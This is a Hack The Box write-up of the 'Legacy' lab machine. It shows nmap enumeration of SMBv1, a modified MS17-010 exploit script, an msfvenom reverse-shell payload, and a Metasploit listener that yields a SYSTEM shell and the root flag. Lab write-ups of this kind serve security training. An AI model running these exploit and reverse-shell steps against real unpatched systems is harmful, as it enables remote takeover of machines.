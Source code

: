 ```yaml
---
layout: single_c
title:  "Hack The Box - Legacy Writeup"
date:   2020-07-05 10:43:16 +0530
toc: true
categories: HTB
tags: OSCP
classes: wide
---
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/legacy/legacy.png){: .align-center}
## Description
I am doing this as part of my OSCP preparation. This is quite an easy box and only requires a single exploit to get root.

## Enumeration

Add `legacy` to `hosts` and start an `nmap` scan.

### Nmap

```bash
kali@kali:~$ nmap legacy.htb -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-02 22:32 EDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.33s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 21.75 seconds
```

### SMB
We have `smb` running on the machine. Do a quick version check.

```bash
kali@kali:~$ nmap --script smb-protocols -p445 legacy.htb -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-02 22:52 EDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.33s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-protocols:
|   dialects:
|_    NT LM 0.12 (SMBv1) [dangerous, but default]

Nmap done: 1 IP address (1 host up) scanned in 54.08 seconds
```
It seems to be running version 1 that is vulnerable to the infamous `MS17-010` that caused `wannacy` attack.

## Root Shell
We can search on exploit db to get a manually exploitable script.

I will be using [this script](https://www.exploit-db.com/exploits/42315) and it requires an additional script `mysmb.py` that can be found [here](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py).

Lets look at the code to see what to change to get a shell.

The function `smb_pwn`, `smb_send_file` and `service_exec` are the ones we require. 

```python
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."

def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
	with open(localSrc, 'rb') as fp:
		smbConn.putFile(remoteDrive + '$', remotePath, fp.read)

# based on impacket/examples/serviceinstall.py
# Note: using Windows Service to execute command same as how psexec works
def service_exec(conn, cmd):
	import random
	import string
	from impacket.dcerpc.v5 import transport, srvs, scmr
```

Here the function `smb_send_file` can be used to create a file on the system and `service_exec` is used to execute a command.

We can create a payload using `msfvenom` and then execute it to get a shell.

### Msfvenom

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=8081 -f exe -o /home/kali/Desktop/htb/legacy/shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: /home/kali/Desktop/htb/legacy/shell.exe
```

Now modify the script as per our need. We don't need the first part where the script tests writing a file.

```python
def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	#print('creating file c:\\pwned.txt on the target')
	#tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	smb_send_file(smbConn, 'shell.exe', 'C', '\shell.exe')
	service_exec(conn, r'C:\shell.exe')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
```

Start a listener and run the exploit.

```bash
kali@kali:~/Desktop/htb/legacy$ python ex.py legacy.htb
Target OS: Windows 5.1
Using named pipe: spoolss
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x81b44230
SESSION: 0xe1a85a70
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe22d4bd0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe22d4c70
overwriting token UserAndGroups
Opening SVCManager on legacy.htb.....
Creating service AraA.....
Starting service AraA.....
The NETBIOS connection with the remote host timed out.
Removing service AraA.....
ServiceExec Error on: legacy.htb
nca_s_proto_error
Done
```

Start a `multi/handler` listener to get the connection.

```bash
kali@kali:~/Desktop/htb/legacy$ msfconsole

                                   ___          ____
                               ,-""   `.      < HONK >
                             ,'  _   e )`-._ /  ----
                            /  ,' `-._<.===-'
                           /  /
                          /  ;
              _          /   ;
 (`._    _.-"" ""--..__,'    |
 <_  `-""                     \
  <`-                          :
   (__   <__.                  ;
     `-.   '-.__.      _.'    /
        \      `-.__,-'    _,'
         `._    ,    /__,-'
            ""._\__,'< <____
                 | |  `----.`.
                 | |        \ `.
                 ; |___      \-``
                 \   --<
                  `.`.<
                    `-'



       =[ metasploit v5.0.97-dev                          ]
+ -- --=[ 2043 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: View all productivity tips with the tips command

msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/shell_reverse_tcp
payload => windows/shell_reverse_tcp
msf5 exploit(multi/handler) > set lport 8081
lport => 8081
msf5 exploit(multi/handler) > set lhost 10.10.14.5
lhost => 10.10.14.5
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:8081
[*] Command shell session 1 opened (10.10.14.5:8081 -> 10.10.10.4:1044) at 2020-08-02 23:05:42 -0400


(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd C:\
cd C:\
C:\>cd Docu*
cd Docu*

C:\Documents and Settings>cd Admin*
cd Admin*

C:\Documents and Settings\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\Administrator

16/03/2017  09:07     <DIR>          .
16/03/2017  09:07     <DIR>          ..
16/03/2017  09:18     <DIR>          Desktop
16/03/2017  09:07     <DIR>          Favorites
16/03/2017  09:07     <DIR>          My Documents
16/03/2017  08:20     <DIR>          Start Menu
               0 File(s)              0 bytes
               6 Dir(s)   6.400.692.224 bytes free

C:\Documents and Settings\Administrator>cd Desktop
cd Desktop

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec91***************
```

And we have the flag. On to the next one